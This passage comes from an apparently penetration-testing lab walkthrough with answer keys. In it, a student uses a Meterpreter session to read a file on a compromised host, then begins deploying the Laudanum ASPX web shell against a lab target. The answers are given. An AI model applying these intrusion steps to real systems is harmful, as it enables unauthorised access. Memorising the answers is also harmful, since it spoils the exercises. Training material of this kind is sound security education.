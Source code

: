 Once a Metrepreter session has been established, students need to navigate to the "/devicedetails" directory to find out the hostname of the router, after reading the contents of the file "hostnameinfo.txt":

Code: shell

```shell
cd /devicedetails
cat hostnameinfo.txt
```

```
meterpreter > cd /devicedetails
meterpreter > cat hostnameinfo.txt

Note: 

All yaml (.yml) files should be named after the hostname of the router or switch they will configure. We discussed this in our meeting back in January. Ask Bob about it.
```

Answer: `edgerouter-isp`

# Laudanum, One Webshell to Rule Them All

## Question 1

### "Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\\path\\you\\land\\in)"

After spawning the target machine, students need to edit the /etc/hosts file by adding `status.inlanefreight.local` with the respective STMIP in Pwnbox/`PMVPN`:

Code: shell

```shell
sudo bash -c 'echo "STMIP status.inlanefreight.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.14.67]─[htb-ac413848@htb-aiebqqjknx]─[~]
└──╼ [★]$ sudo bash -c 'echo "10.129.42.197 status.inlanefreight.local" >> /etc/hosts'
```

Then, students need to make a copy of the laudanum web shell into their home directory of Pwnbox/`PMVPN`:

Code: shell

```shell
cp /usr/share/laudanum/aspx/shell.aspx ./
```

```
┌─[eu-academy-2]─[10.10.14.253]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cp /usr/share/laudanum/aspx/shell.aspx ./
```
